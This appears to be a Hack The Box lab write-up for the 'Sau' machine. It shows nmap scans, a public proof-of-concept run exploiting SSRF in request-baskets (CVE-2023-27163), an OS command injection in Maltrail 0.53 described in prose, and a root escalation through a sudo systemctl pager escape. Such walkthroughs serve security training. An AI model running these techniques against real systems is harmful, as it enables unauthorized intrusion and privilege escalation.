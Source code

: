 ```yaml
---
slug: /write-up/htb/easy/sau
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

Initial scan shows some open ports:

```bash
└──╼ $nmap sau.htb -oA scans/initial_scan -Pn -n
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:10 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Port 80 is behind a firewall.

SSH:
```bash
└──╼ $nmap sau.htb -oA scans/ssh_scan -Pn -n -p22 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:11 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.73 seconds
```

We are dealing with an ubuntu focal.

55555:
The nmap is taking a lot of time in determining the service. However, if we `curl` the port, we can see that it's a webserver:

```bash
└──╼ $curl -vvv sau.htb:55555
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET / HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Content-Type: text/html; charset=utf-8
< Location: /web
< Date: Wed, 27 Sep 2023 18:17:35 GMT
< Content-Length: 27
< 
<a href="/web">Found</a>.
```

The result from nmap came back and say that it cannot determine the service. We can see that if has something to do with baskets:

```
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
```

If we curl the home page, we can see something interesting:
```html
        <small>
          Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
          Version: 1.2.1
        </small>
```

Checking the website source code from the browser, we can see that there's a basket API which used a "Master token" for auth.

```js
        $.ajax({
          method: "POST",
          url: "/api/baskets/" + basket,
          headers: {
            "Authorization" : sessionStorage.getItem("master_token")
          }
```

After reading a bit, looks like the service is a server used to display HTTP requests

## Foothold

Knowing the service and version, we can search for CVEs. 

https://github.com/entr0pie/CVE-2023-27163

Looks like we can abuse of the request-baskets to access the webserver listening on port 80 but firewalled and...it's working:

```bash
┌─[parrot@parrot]─[~/workspace/gal/htb/machines/sau/exploits]
└──╼ $./CVE-2023-27163.sh http://sau.htb:55555/ http://127.0.0.1
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "zfqies" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/zfqies now makes the server request to http://127.0.0.1.
> Authorization: sXxaCFrbUXtDv3qiltNRTbGju6JosLVH8fL2DkqyeiN9
```

```bash
└──╼ $curl -vvv http://sau.htb:55555/zfqies
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET /zfqies HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Cache-Control: no-cache
< Connection: close
< Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
< Content-Type: text/html
< Date: Thu, 28 Sep 2023 09:29:31 GMT
< Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
< Server: Maltrail/0.53
< Transfer-Encoding: chunked
< 
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
```

In the firewalled webserver there's an instance of maltrail 0.53 service, which making a quick google search has a OS command injection vulnerability in the username field of the /login endpoint. There's even a metasploit module to explot it. See: https://packetstormsecurity.com/files/174221/Maltrail-0.53-Unauthenticated-Command-Injection.html

I've made some attempts with the bash and sh payloads from reverse shell and base64 encoded, also play around with data encoding (url encode, form encode, ...)

Finally I've made it work by using a python payload, base64 and form encoding.

We can read the user flag


## Privilege escalation

`sudo -l` shows that the user can execute systemctl status as any user (including root):

```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Let's search how to explot that in GTFO bins, looks like the default pager for systemctl is `less`, we can have access to root by just typing: `!sh` and voila!

We can read root flag.